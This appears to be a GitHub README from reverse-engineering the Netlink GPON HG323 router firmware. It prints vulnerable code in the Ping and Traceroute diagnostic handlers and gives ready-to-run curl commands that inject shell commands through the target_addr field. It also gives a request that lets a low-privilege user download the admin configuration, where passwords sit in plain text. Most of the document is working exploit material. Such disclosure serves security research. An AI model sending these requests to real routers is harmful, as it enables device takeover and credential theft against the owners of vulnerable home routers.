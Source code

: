 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.16-191118

## RCE
Remote code can be executed by  exploiting either of the daignostics tool "Ping" or "Tracert". Inorder for this to work we should be logged in either as "user" or "admin"

### 1. formPing

vulnerable code


* snprintf(cmd_to_execute,0x100,"ping %s -c 4 -I %s -w 5 %s > /tmp/ping.tmp",param,interface_name,target_addr);
* bin/sh cmd_to_execute

Here we can supply the "target_addr" with  "; payload"

exploit 

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formPing'


### 2. formTracert

similar to formPing

vulnerable code

* snprintf(cmd_to_execute,0x200,"traceroute %s -I -i %s %s > /tmp/tracert.tmp",param,&some_param,target_addr);

exploit

curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formTracert'

## Dumping creds
We can use the rce exploit to view "/var/config/lastgood.xml" to view passwords or

There are two usernames for the web app
"user" and superuser "admin".
we can abuse the save  config file feature of admin  to get the config file while logged in as "user"

of course the passwords are stored in plain text.


exploit 


curl -s -L -d 'action=saveconfigfile&submit-url=' 'http://192.168.1.1/boaform/admin/formMgmConfig'






